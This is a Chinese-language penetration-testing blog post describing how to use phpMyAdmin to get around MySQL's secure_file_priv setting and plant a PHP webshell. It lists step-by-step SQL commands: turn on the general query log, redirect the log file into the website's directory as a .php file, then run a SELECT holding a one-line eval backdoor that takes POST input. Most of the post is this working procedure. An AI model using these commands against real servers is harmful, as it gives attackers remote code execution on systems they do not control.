 ```yaml
---
title: phpMyAdmin突破secure-file-priv写WebShell
abbrlink: 64672
date: 2020-05-25 18:02:10
categories:
- 渗透测试
tags: ["渗透测试", "phpMyadmin", "secure-file-priv"]
keywords:
summary:
---
```





1.查看`secure_file_priv`值
```bash
show global variables like '%secure_file_priv%';
# show global variables like '%secure%';

# 此开关默认为NULL：即不允许导入导出
# 没有具体值时：表示不对mysqld 的导入|导出做限制
# 值为/tmp/ ：表示限制mysqld 的导入|导出只能发生在/tmp/目录下
```

2.查询操作日志存放路径
```bash
show variables like 'general_log%';

# 操作日志默认也是关闭的
```

3.首先打开操作日志记录
```bash
set global general_log = 'ON';
```

4.设置操作记录日志路径(`前提是获取到了绝对路径`)
```bash
# set global general_log_file='路径地址';
# 选择网站的目录里面
set global general_log_file='D:\\phpstudy\\PHPTutorial\\WWW\\xx.php'
```

5.执行sql语句，mysql会将执行的语句内容记录到我们指定的文件中，就可以getshell了
```bash
select '<?php @eval($_POST[1]);?>';
```

6.访问webshell，进行后续操作












